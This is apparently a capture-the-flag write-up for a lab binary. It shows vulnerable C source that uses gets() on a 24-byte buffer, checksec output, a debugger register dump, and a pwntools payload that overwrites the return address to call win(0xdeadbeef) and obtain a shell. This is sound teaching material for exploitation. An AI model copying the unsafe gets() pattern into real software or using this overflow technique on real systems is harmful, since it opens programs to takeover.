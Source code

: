 # Intro 3

Again, we have source code and the binary

main.c:
```
#include <stdlib.h>
#include <stdio.h>

void win(unsigned int x){
    if (x != 0xdeadbeef){
        puts("Almost...");
	return;
    }
    system("/bin/sh");
}

void vuln(){
    char buf[24];
    gets(buf);
}

int main(){
    puts("Level 3: Args too?\n");
    vuln();
    return 0;
}
```

checksec:
```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Okay. Same idea as before but this time the win function has arguments

So we need to overflow the buffer, jump to win and ensure "x" is equal to 0xdeadbeef

Using the same method as intro2. we can find the offset for EIP is 36
```
 EAX  0xffffd698 ◂— 0x61616161 ('aaaa')
 EBX  0x61616168 ('haaa')
 ECX  0xf7f9e580 (_IO_2_1_stdin_) ◂— 0xfbad2288
 EDX  0xfbad2288
 EDI  0xf7f9e000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1e4d6c
 ESI  0xf7f9e000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1e4d6c
 EBP  0x61616169 ('iaaa')
 ESP  0xffffd6c0 ◂— 'kaaalaa...'
 EIP  0x6161616a ('jaaa')
 ```
 
Again no PIE means we know the address of win so our payload will look like this:

payload = junk * 36 + win() + padding * 4 + 0xdeadbeef

```
OFFSET = 36
payload = OFFSET * b'A'
payload += p32(elf.symbols['win'])
payload += b"\x00" * 4
payload += p32(0xdeadbeef)

io.sendline(payload)
io.interactive()
```

![](pics/1.png)



